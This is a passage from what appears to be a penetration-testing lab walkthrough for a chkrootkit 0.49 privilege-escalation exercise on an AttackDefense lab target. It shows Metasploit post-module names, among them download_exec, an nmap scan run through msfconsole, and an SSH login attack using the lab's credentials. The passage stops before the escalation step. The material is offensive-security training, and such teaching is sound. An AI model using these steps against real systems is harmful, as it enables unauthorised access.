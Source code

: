 <figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
post/multi/manage/system_session
post/linux/manage/download_exec
```

***

## Lab 2 - Privilege Escalation <a href="#lab-2-privilege-escalation" id="lab-2-privilege-escalation"></a>

> 🔬 [Privilege Escalation - Rootkit Scanner](https://attackdefense.com/challengedetails?cid=1396)
>
> * Target IP: `192.17.170.3`
> * Exploit a vulnerable **Rootkit Scanner** and escalate privileges to root user
> * [Chkrootkit 0.49 - Local Privilege Escalation](https://www.exploit-db.com/exploits/33899)
> * SSH Credentials: `jackie`:`password`

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.17.170.3
workspace -a Linux_Privesc
```

* Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.17.170.3
```

```bash
[*] Nmap: Not shown: 999 closed ports
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[*] Nmap: MAC Address: 02:42:C0:11:AA:03 (Unknown)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation - SSH <a href="#exploitation-ssh" id="exploitation-ssh"></a>

```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
options
set USERNAME jackie
set PASSWORD password
run
```
